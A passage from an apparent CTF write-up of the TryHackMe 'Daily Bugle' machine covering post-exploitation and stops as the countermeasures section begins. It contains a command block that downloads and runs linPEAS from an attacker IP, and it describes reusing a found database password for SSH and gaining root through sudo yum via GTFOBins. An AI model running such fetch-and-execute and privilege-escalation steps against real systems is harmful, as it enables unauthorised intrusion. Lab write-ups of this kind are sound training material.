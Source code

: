 {{< highlight bash "linenos=table" >}}
wget http://10.11.51.136/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
{{< / highlight >}}

Examining the output of linpeas you can **search for common keywords** but one information stands out, there is a database password. 

![Password found by linPEAS](../images/password-found-by-linpeas.png)

***Figure 11***: *Password found by linPEAS*

If we are lucky enough this is a password of a user, since this is not a hard CTF, it worth a try logging through ssh with one of the user. **Just listing /home folder reveals that we have a single user called jjameson.** 

Bingo, **logging in SSH with user jjameson and the password found by linPEAS** allows me to login and grab the user flag.

## From user to root

Almost too simple, once I'm in as jjameson user issuing a sudo -l reveals **that the user is allowed to use yum command with sudo**. Checking [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) immediately reveals that it is vulnerable.

![sudo -l, an old friend](../images/sudo-l-jjameson.png)

***Figure 12***: *sudo -l, an old friend*

And in GTFObin there is a simple script to run to simply got root, almost trivial.

![GTFObin for yum](../images/full-yum-script.png)

***Figure 13***: *GTFObin for yum*

I can really just copy the script from GTFOBin and **directly paste in ssh shell to become root**.

![And now I'm root](../images/yum-gtfobin-root.png)

***Figure 14***: *And now I'm root*

## Conclusion and countermeasures

Daily bugle is a nice machine, quite easy even for people like me that are not soo deep in **penetration test field**. Everything you need was pretty much contained in lessons you can find in Try Hack Me or in any other introductory courses on penetration testing. Nevertheless **it was fun because it gave you the ability to try some basic techniques to hack into a machine and understand what you should never do in real life**.

At the end of a CTF it is nice to try to understand what the machine taught from a blue team perspective. 

### Update your software
